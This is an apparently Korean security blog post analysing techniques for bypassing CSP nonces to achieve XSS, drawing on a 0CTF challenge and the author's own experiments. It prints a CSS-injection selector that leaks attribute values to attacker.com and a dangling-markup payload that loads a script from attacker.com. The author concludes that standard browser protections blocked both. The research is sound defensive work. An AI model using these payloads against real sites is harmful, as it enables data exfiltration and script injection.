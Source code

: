 +++
date = '2025-08-29T19:59:06+09:00'
draft = true
title = '[Note] CSP Nonce 우회 방법 분석'
+++

## 브라우저 보안 정책
브라우저의 보안 정책에는 다양한 종류가 존재한다. 그중 대표적인 것이 SOP, CORS, CSP이다.

우선 `SOP(Same-Origin Policy)`는 웹 보안의 가장 기본적인 원칙이다. 동일한 Origin(프로토콜, 도메인, 포트가 모두 동일)에서만 리소스 접근을 허용함으로써, 악의적인 사이트가 다른 사이트의 민감한 데이터를 훔쳐보는 것을 막는다. 하지만 실제 웹 서비스에서는 외부 스크립트, CDN, API 등 다른 Origin의 리소스를 불가피하게 사용해야 하는 경우가 많다.

이러한 현실적인 요구를 충족하기 위해 등장한 것이 `CORS(Cross-Origin Resource Sharing)`이다. 서버가 Access-Control-Allow-Origin 같은 헤더를 통해 허용 범위를 지정하면, 브라우저는 특정 조건하에서 교차 출처 리소스 요청을 허용한다. 덕분에 API 기반의 웹 서비스 확장성이 가능해졌지만, 동시에 잘못된 설정은 보안 취약점으로 이어질 수 있다.

이후 보다 정교하고 강력한 보안 제어 수단으로 발전한 것이 `CSP(Content Security Policy)`이다. CSP는 단순히 출처를 제한하는 수준을 넘어, 어떤 스크립트가 실행될 수 있는지, 어떤 리소스를 로드할 수 있는지 세밀하게 통제할 수 있는 정책이다. 특히 XSS와 같은 클라이언트 측 공격을 방어하는 핵심 기술이다.

이 외에도 다양한 보안 정책이 존재하지만, CSP와 브라우저 기본 동작을 이용한 XSS 우회 방식을 중심으로 살펴보며, 그 중에서도 Nonce 정책에 대해 분석해볼 것이다.

---

## CSP Nonce

CSP에는 `default-src`, `script-src` 등 여러 지시어가 존재한다. 각 지시어에는 `'self'`, `'nonce-<nonce>'`와 같은 소스 표현식이 설정되며, 이는 화이트리스트 방식으로 지정된 소스만 리소스 접근을 허용한다.  

그중 `nonce-<nonce>`는 `script-src`에서 자주 사용되며, 해당 nonce 값을 가진 `<script>` 태그만 실행되도록 제한할 수 있다. Nonce는 매 요청마다 갱신되는 랜덤 값이므로 공격자가 예측하거나 재사용하기 어렵다.  

---

## CSP Nonce 우회 방법

CSP의 `script-src`에 Nonce가 설정되어 있을 때 이를 우회해 XSS 스크립트를 삽입하는 다양한 CTF 문제가 존재한다.  
주로 활용되는 방식은 다음 세 가지다.

1. **소스리스트 우회**  
   하나의 지시어에 여러 소스 표현식이 동시에 정의되어 있으면, 그중 하나만 충족해도 스크립트 실행이 허용된다.  
   예를 들어 `'self'`와 `'nonce-<nonce>'`가 함께 지정된 경우, 공격자는 nonce를 알지 못해도 `'self'`를 이용해 스크립트를 실행할 수 있다.

2. **고정 Nonce 재사용**  
   Nonce가 매 요청마다 새로 생성되지 않고 고정된 값으로 발급된다면, 공격자는 한 번 확보한 nonce를 계속 재활용할 수 있다.  

3. **Meta 태그 기반 CSP**  
   CSP를 HTTP 응답 헤더가 아닌 `<meta http-equiv="Content-Security-Policy">` 태그로 설정한 경우, 캐싱 정책에 따라 특정 응답이 고정된 상태로 재사용될 수 있다.  
   이때 HTML 문서나 리소스가 캐시되면 공격자는 동일한 nonce 값을 반복적으로 얻어낼 수 있어 보안에 취약해진다.

## 의문 제기

보안 강화를 위해 표준 권고대로 **Response Header에서 CSP를 설정하고 매번 새로운 nonce를 발급**한다면, 공격자가 nonce 값을 알아내는 것은 정말 불가능할까? 

관련 정보를 찾아보던 중 [2023-0CTF-newdiary](https://github.com/sajjadium/ctf-archives/tree/main/ctfs/0CTF/2023/web/newdiary) 하는 매번 갱신되는 Nonce 값을 유출하여 XSS를 성공시키는 CTF 문제를 발견했다. 이 문제의 풀이를 이해하려면 먼저 CSS Injection 기법을 이해할 필요가 있다.  

CSS에서는 **선택자(selector) 문법**을 제공한다.  
- 예: `[attr=value]` 문법은 특정 속성 값이 정확히 일치하는 태그를 선택한다.  
- `^=`, `*=` 연산자를 이용하면 **속성 값의 접두사, 부분 문자열** 여부를 확인할 수 있다.  

이를 이용하면 다음과 같은 공격이 가능하다:  

```css
input[name="secret"][value^="a"] {
  background: url(https://attacker.com/leak?q=a);
}
```

위 코드는 value 값이 "a"로 시작한다면 공격자의 서버로 요청을 보내 속성 값을 한 글자씩 유추할 수 있다. 즉, CSS Injection을 통해 HTML 속성 값 전체를 외부로 누출할 수 있는 것이다.

실제 0CTF-newdiary 문제 풀이에서는 CSS Injection으로 meta 태그에 들어 있는 nonce 속성 값을 유출했고, 이를 조합하여 최종 nonce를 알아낸 뒤 삽입하여 XSS를 성공시켰다.

---

## CSS Injection 시도
나는 같은 방법을 실제 환경에서 시도해 보았다. 그러나 아무리 시도해도 nonce 값을 얻어낼 수 없었다.

문제를 다시 살펴보니 차이가 있었다.

CTF 문제에서는 CSP가 meta 태그로 설정되어 있었기 때문에, meta 태그 속성에 nonce가 노출되었다. 그러나 실제 환경에서는 CSP가 Response Header로 설정되어 있었고, 이 경우 nonce는 `<script>` 태그에만 부여된다.

[MDN Docs](https://developer.mozilla.org/en-US/docs/Web/HTML/Reference/Global_attributes/nonce#accessing_nonces_and_nonce_hiding)
에 따르면, 보안상의 이유로 nonce 속성은 DOM API나 CSS 선택자에서 접근할 경우 빈 문자열만 반환된다. 이를 “nonce hiding” 정책이라고 한다.

---

## Dangling Markup Injection 시도
CSS Injection이 막혀 있다면 Dangling Markup Injection은 어떨까?

Dangling Markup Injection은 `<tag attr="`처럼 닫히지 않은 속성을 삽입하여, 이후 HTML 문서의 내용을 모두 해당 속성 값에 포함시켜버리는 기법이다. 닫는 `"`나 `>`를 만나기 전까지 문서가 속성 값으로 흡수되기 때문에, 기존의 `script` 요소가 뒤에 위치한다면 태그에 포함시킬 수 있다.

실험 환경에서 실제로 `<script>` 태그와 그 안의 `nonce` 속성을 감싸는 데 성공했다. 이로 인해 nonce hiding 정책을 우회해 CSS Injection으로 감싼 `nonce` 값을 유출할 수 있는 조건을 만들 수 있었다.

여기서 새로운 의문이 생겼다.

>“그렇다면 이렇게 감싸서 흡수한 nonce 값을 실제로 내 스크립트에 붙여서 실행할 수는 없을까?”

### 추가 실험: 감싼 nonce 활용
기존 `<script src="/static/origin.js" nonce="">` 형식의 스크립트 앞에 `<script src="https://attacker.com/static/xss.js" foo="` 라는 페이로드를 삽입해
```html
<script src="https://attacker.com/static/xss.js" foo="<script src=" /static/origin.js" nonce="">
```
위와 같은 형태의 정상적인 nonce값을 가진 script를 생성할 수 있었다. [HTML Standard - 13.2.2 Parse errors](https://html.spec.whatwg.org/multipage/parsing.html#parse-errors)에 따르면, 문법 오류를 발견해도 파싱은 중단되지 않고 대체 처리 규칙이 적용된다.

따라서 이론적으로 삽입된 스크립트가 CSP에 의해 허용되어 실행될 것이라고 예상했다.

그러나 실제로는 스크립트가 실행되지 않았다.

### Is element nonceable?
이후 표준 문서를 찾아보니 [W3C Content Security Policy Level 3 - 6.7.3.1 Is element nonceable](https://www.w3.org/TR/CSP3/#is-element-nonceable)규정이 있었다.  
이 규칙은 비정상적인 구문이나 공격을 통해 삽입된 요소에는 기존 `nonce`가 적용되지 않도록 차단하는 정책으로, 댕글링 마크업을 이용한 `nonce` 재사용 공격을 원천적으로 막는다.

즉, 내가 삽입한 `<script>`는 `nonce` 속성이 있었음에도 불구하고 CSP에 의해 차단된 것이다.

---

## 결론
- **CSS Injection: Response Header** 기반 CSP의 nonce는 nonce hiding 정책으로 인해 유출 불가.

- **Dangling Markup Injection**: `<script>`에 `nonce` 속성을 감싸서 포함시키는 것은 가능했지만, Is element nonceable 규칙에 의해 실행 차단.

따라서 표준 권장대로 Response Header에 설정된 CSP와 매번 갱신되는 nonce가 사용되는 환경에서는 단순히 CSS Injection이나 Dangling Markup Injection만으로 nonce를 유출하거나 재사용할 수 없다.

그러나 만약 Dangling Markup Injection으로 `<script>`와 `nonce` 속성을 감싸는 것이 가능하고, 동시에 CSS Injection을 통해 해당 속성 값을 외부로 유출할 수 있다면, 이 두 기법을 조합하여 CTF 문제에서처럼 CSP Nonce 기반 XSS를 재현하는 것도 이론적으로는 가능하다.

>참고자료  
>[W3C Content Security Policy Level 3](https://www.w3.org/TR/CSP3/)  
>[WHATWG HTML Standard: Parsing](https://html.spec.whatwg.org/multipage/parsing.html)  
>[HSPACE Tech Blog](https://blog.hspace.io/posts/CSS_injection/)  
>[Medium](https://0x0elliot.medium.com/babier-csp-a-great-beginner-xss-challenge-c8b431c03385)  
>[Tistory](https://gayunkim-1.tistory.com/38)  
>[Github](https://github.com/whatwg/html/issues/2369)  
>[Web-platform-tests dashboard](https://wpt.fyi/results/content-security-policy/nonce-hiding/script-nonces-hidden.html?label=master&label=experimental&aligned)